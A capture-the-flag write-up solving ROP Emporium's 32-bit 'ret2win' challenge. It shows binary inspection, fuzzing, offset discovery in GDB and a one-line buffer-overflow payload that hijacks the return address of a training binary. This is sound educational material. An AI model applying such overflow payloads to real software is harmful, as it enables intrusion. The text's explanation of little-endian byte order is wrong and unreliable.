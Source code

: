 # ret2win

This is a simple challenge from ropemporium.com. The objective is to divert the process flow to execute a specific function within the binary to return to.

I will be doing this one with the 32 bit version of the challenge.

## First moves
We can start by examining the file.
We ran two commands that will reveal interesting information to us.

`file`
```bash
└─$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
```

`checksec`

```bash
[*] '/home/kali/my_challenges/pwn/ropemporium/ret2win/ret2win32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Most of the protections are disabled except for stack execution. We also see that the binary is 32 bit and is little-endian.

Finally, we will execute the program and observe what it does.
```bash
└─$ ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

```

Since this is the first challenge, it seems to be already leaking all the info we possibly need haha.

## Attack plan
1. Manually fuzz the program
2. Examine the program dynamically using GDB

### Details
We will start by executing the program again and trying to crash it to gauge how much data we need to input to corrupt the stack.
The program already revealed to us that the buffer its reading the input to is 32 bytes. If we enter exactly 32 bytes:
```bash
└─$ ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!

Exiting

```
Ok, it seems to have handled it well. Let's try now to overflow it. It seems to suggest 56 bytes, that's probably the offset to the return value on the stack. Let's try:
```bash
└─$ ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!
zsh: segmentation fault (core dumped)  ./ret2win32
```
Yup, it crashed.
We can also confirm this by checking what library functions the binary is calling and looking at their input using `ltrace`.

We will skip static analysis with Ghidra and immediately move to dynamic analysis with GDB.

### Dynamic analysis
Using gdb, we can see three functions of interest in the process
```bash
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
```

Cool, looking at the assembly code of these three functions using GDB, we come to the realization that main calls pwnme and ret2win is never called. ret2win is the function we want to divert the execution to. This will happen when the process tries to return from pwnme to main.

We already know more or less the offset to the return pointer. But we can also double check again by running the program in gdb and using a cyclic pattern to calculate the offset to the return address from the buffer start address.

By crashing the program and checking the EIP for the value that got assigned post return from pwnme we get:
```bash
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

Seems like the start of the return pointer is exactly after 44 bytes. This is enough for us to write an exploit as follows:
```bash
echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x2c\x86\x04\x08" > payload
```
or in python2 if you have it handy:
```bash
python2 -c 'print "a"*44 + "\x2c\x86\x04\x08"' > payload
```

Note that we wrote the return address to ret2win in reverse because the binary is in little-endian mode (i.e, the least significant bits are stored in higher memory values)!

Executing the binary with the payload we get:
```bash
└─$ ./ret2win32 < payload
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
zsh: segmentation fault (core dumped)  ./ret2win32 < payload
```

Success!

